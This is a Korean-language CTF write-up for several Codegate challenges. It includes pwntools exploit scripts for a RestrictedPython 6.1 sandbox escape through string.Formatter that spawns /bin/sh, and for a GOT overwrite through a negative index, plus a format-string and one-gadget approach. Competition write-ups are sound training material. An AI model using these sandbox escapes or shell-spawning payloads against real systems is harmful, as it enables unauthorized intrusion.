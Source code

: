 ### shielder(조수호) 

1. misc/Hello Codegate
2. misc/Captcha World
3. misc/safePythonExecutor
4. pwn/What's Happening?
5. pwn/Magic Palette
6. crypto/Encrypted flag
7. rev/inital
8. rev/C0D3Matr1x
9. web/Ping Tester

---
## misc/Hello Codegate

디코 `notice` 채널에 플래그가 나와있다.

---
## misc/Captcha World

캡챠를 입력해야 한다. 근데 10번만 하면 되기 때문에 그냥 직접 입력해주면 된다.

---
## misc/safePythonExecutor

중요한 것은 `RestrictedPython==6.1`이다. CVE를 찾아보니 format, format_map, formatter 쪽에 필터링 실패 취약점이 있다고 한다.

https://github.com/nikosChalk/ctf-writeups/blob/master/uiuctf23/pyjail/rattler-read/writeup/README.md

위의 라업 논리를 그대로 따라가면 똑같은 방법으로 풀 수 있다.

### exploit.py

```python
from pwn import *

p = remote('3.35.196.167', 42424)
#p = process(['python3', 'prob.py'])

#dt = '''string.Formatter().get_field("a.__class__.__base__.__subclasses__", [], {"a": ""})[0]()[84].load_module("os").system("sh")'''
dt = '''
class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (string.Formatter.get_field(self, field_name, args, kwargs)[0]("/bin/sh"), ""); 
Baz().format("{0.Random.__init__.__globals__[_os].system}", random)
'''.replace('\n', '\r')
p.sendlineafter(b': ', dt)
p.send(b'\n')
p.interactive()
```

---
## pwn/What's Happening?

pie가 꺼져 있다. Partial RELRO이다. 행성 정보 업데이트를 하는데 음수 인덱스를 안 막아 놨다. 그래서 got overwrite가 된다. puts got을 win 함수로 덮으면 된다. system got이 망가지긴 하는데, pie가 꺼져 있어서 그냥 다시 입력 해주면 된다.

### exploit.py

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./prob')
p = remote('3.37.174.221', 33333)
e = ELF('./prob')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', b'-3')
p.sendlineafter(b': ', p64(e.sym['win']) + b'a' * 8 + p64(0x401080))
p.sendlineafter(b': ', b'0')
#gdb.attach(p)
p.sendlineafter(b': ', b'0')
p.interactive()
```

---

## pwn/Magic Palette

`print_palette`에서 입력 때 조건을 좀 맞춰주면 `FSB`가 터진다. `k`라는 바이트를 출력하고 싶으면 `k + b'\x80'`을 입력해주면 된다. `FSB`가 무제한이므로 릭은 얼마든지 할 수 있다.
원가젯은
```
0xebd38 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

이걸 쓰고, r12를 0으로 만들어줬다. `FSB`로 `printf` 내부 스택 프레임의 `pop r12`와 ret 부분에 덮어줘서 해결했다.

